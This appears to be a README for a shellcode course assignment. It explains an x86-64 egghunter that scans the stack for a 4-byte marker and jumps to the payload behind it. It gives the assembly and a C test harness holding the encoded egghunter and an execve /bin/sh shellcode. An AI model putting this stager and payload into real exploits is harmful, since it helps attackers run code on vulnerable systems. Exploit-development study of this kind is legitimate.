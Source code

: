# Egghunter

This assignment was about creating an Egghunter shellcode. 

An Egghunter shellcode is used in situations in which you are not sure where exactly your shellcode was placed. The idea is that the egghunter scans the memory for the occurence of a specific value ( the egg ) and jumps to the shellcode that is placed behind the egg.

## Shellcode

In my implementation the egg is exactly 4 bytes long.

```
_start:
    add rsp, 22 ; Dont scan the egghunter shellcode as it contains the egg as well
_huntloop:
    inc rsp ; Increment the rsp so that we search for the egg byte-wise
    cmp dword [rsp], the_egg ; Does Rsp point to the egg?
    jne _huntloop ; If it does not point to the egg do an other iteration
    
    ; We found the gg \0/
    add rsp, 4 ; Jump over the 4 byte egg
    jmp rsp ; Jump to the shellcode
```

## Testing the egghunter

In order to test my shellcode I created the following C program:
```
    /// AAAA IS THE EGG
    char shellcode[] = "AAAA\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05";
    char trash[] = "ASFHA(USFHAIFJA)FH(*HAFIONIJ)*Y(&UNMIOPJHOHOIN:IUASD";
    char egghunter[] = "\x48\x83\xc4\x16\x48\xff\xc4\x81\x3c\x24\x41\x41\x41\x41\x75\xf4\x48\x83\xc4\x04\xff\xe4";

    (*(void(*)()) egghunter)();
```

As you can see I placed some trash values between the egghunter and the actuall shellcode to make it more realistic. When the eggunter shellcode is executed the stack looks like this:

```
+-----------------------+
|                       |
|       EGGHUNTER       | <-- RSP
|                       |
+-----------------------+
|                       |
|        TRASH          |
|                       |
+-----------------------+
|                       |
|         EGG           |
|                       |
+-----------------------+
|                       |
|      SHELLCODE        |
|                       |
|                       |
+-----------------------+
```

By incrementing the RSP we let point closer and closer to the egg until it points to it.
Then I add the egg size ( 4 bytes ) to the rsp so that the rsp points to the shellcode.
